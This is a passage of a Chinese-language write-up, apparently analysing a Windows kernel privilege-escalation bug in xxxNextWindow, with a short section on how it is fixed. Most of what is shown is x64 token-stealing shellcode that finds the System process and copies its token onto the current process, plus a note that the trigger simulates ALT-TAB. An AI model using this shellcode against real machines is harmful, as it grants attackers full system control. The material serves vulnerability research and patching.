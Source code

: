         mov  rax, qword ptr [rax + 0x70]

        ; 得到 ActiveProcessLinks
        ; 1: kd> dt nt!_EPROCESS
        ;    +0x000 Pcb              : _KPROCESS
        ;    +0x188 ActiveProcessLinks : _LIST_ENTRY

        lea  rax, [rax + 0x188]

    tag:
        mov  rax, qword ptr [rax]

        ; 得到PID
        ; 1: kd> dt nt!_EPROCESS
        ;    +0x180 UniqueProcessId  : Ptr64 Void
        ;    +0x188 ActiveProcessLinks : _LIST_ENTRY

        mov  rbx, qword ptr [rax - 0x8] ;UniqueProcessID
        cmp  rbx, 0x4   ; 4 是System进程的PID
        jne  tag

        ; 得到token
        ; 1: kd> dt nt!_EPROCESS
        ;    +0x188 ActiveProcessLinks : _LIST_ENTRY
        ;    +0x208 Token            : _EX_FAST_REF

        mov  rbx, qword ptr [rax + 0x80] ; TOKEN of SYSTEM

        push rbx

    tag2:
        mov  rax, qword ptr [rax]
        mov  rbx, qword ptr [rax - 0x8] ; UniqueProcessID
        cmp  ebx, ecx ; 比较是不是当前进程
        jne  tag2
        pop  rbx
        mov  qword ptr[rax + 0x80], rbx ; 替换Token

        pop  rbx
        pop  rcx
        pop  rax
        popfq

        sti
        jmp  rax  ; 执行原来的函数


### 触发xxxNextWindows

如何触发xxxNextWindows是一个问题，Exploit中给出的方法是模拟ALT-TAB窗口的操作来完
成，见代码中_sim_前缀的函数。

*更详细的请看利用代码41015.c中的注释*

## 漏洞修复

通过分析漏洞发现，当xxxNextWindow在处理子窗口的时候才会触发任意地址写，于是我们只
要屏蔽掉子窗口就行了。
